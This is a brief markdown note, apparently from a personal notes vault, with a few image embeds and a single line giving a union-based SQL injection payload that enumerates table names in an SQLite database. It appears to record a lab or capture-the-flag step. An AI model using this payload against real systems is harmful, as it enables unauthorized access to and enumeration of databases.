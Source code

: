 
![[Images/image 1.png]]
![[Images/image.png]]
![[Images/image 2.png]]
tables: "2 UNION SELECT group_concat(name) FROM sqlite_master where type='table' -- -"
